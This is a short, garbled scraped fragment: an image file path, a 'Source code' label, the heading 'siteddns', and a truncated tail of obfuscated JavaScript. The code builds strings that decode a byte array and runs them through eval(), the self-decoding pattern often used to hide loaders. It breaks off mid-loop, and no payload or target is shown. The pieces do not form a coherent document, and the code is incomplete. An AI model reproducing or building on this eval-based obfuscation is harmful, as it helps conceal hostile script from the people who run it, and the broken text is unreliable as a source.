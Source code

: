  # siteddns
=1);";eval(al);al="al=43;do{yl[al]=(-((yl[al]-yl[al-1])&0xff))&0xff;}while(--al>=1);";eval(al);zl="";for(al=1;al
